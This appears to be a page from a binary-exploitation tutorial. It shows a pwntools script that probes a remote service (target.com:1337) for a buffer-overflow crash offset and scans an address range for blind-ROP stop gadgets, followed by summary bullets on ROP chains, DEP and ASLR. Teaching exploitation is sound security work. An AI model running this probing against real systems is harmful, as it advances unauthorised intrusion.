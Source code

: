 ```python
#!/usr/bin/env python3
from pwn import *

def blind_rop_discovery():
    """Discover gadgets without access to binary"""
    
    def test_crash(payload):
        """Test if payload causes crash"""
        try:
            p = remote('target.com', 1337)
            p.sendline(payload)
            response = p.recvall(timeout=2)
            p.close()
            return b"error" not in response.lower()
        except:
            return False
    
    # Find buffer overflow offset
    offset = 0
    for i in range(100, 200):
        if not test_crash(b'A' * i):
            offset = i
            break
    
    print(f"Crash offset: {offset}")
    
    # Find stop gadgets (prevent crash)
    stop_gadgets = []
    for addr in range(0x400000, 0x401000, 0x10):
        payload = b'A' * offset + p64(addr) * 10
        if test_crash(payload):
            stop_gadgets.append(addr)
            print(f"Stop gadget found: 0x{addr:x}")
    
    # Find useful gadgets using stop gadgets
    return stop_gadgets
```

## Key Takeaways

!!! important "ROP Fundamentals"
    - **Gadgets are code reuse** - Short sequences ending in RET
    - **Chain execution** - Each RET jumps to next gadget address
    - **DEP bypass** - Uses existing executable code
    - **ASLR challenges** - Need information leaks for dynamic libraries
    - **Architecture matters** - x86 vs x64 have different calling conventions

!!! tip "ROP Development Process"
    - Start with simple function calls (system, execve)
    - Use automated tools (ROPgadget, pwntools) for gadget discovery
    - Test gadgets individually before building full chains
    - Handle ASLR with information leaks or ret2plt
    - Debug chains step-by-step when they fail
